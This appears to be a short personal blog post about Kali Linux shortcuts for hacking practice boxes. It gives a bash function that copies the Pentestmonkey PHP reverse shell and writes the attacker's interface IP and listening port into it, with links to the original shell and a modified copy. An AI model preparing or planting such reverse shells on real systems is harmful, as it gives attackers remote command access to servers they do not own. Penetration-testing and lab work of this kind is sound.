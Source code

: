 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain processes when hacking boxes. Life's too short to be repeating stuff all the time.


## PHP Reverse Shell Generator

This particular script is for generating a PHP reverse shell. Just append it to your `.bashrc` file in your user's home directory and restart your terminal to use. The original script can be found on [Pentestmonkey here][1]. Just replace the ip address to 'ipaddress' and set the port to 443.
Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`


~~~bash

# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
if [ $# -eq 0 ]; then echo "Please define interface"
else
    revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
    cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
        if [ $# -eq 2 ]; then
        revport=$2 ;
        sed -i 's/443/'$2'/g' rev.php
        else revport=443
        fi
    echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
fi
}


~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
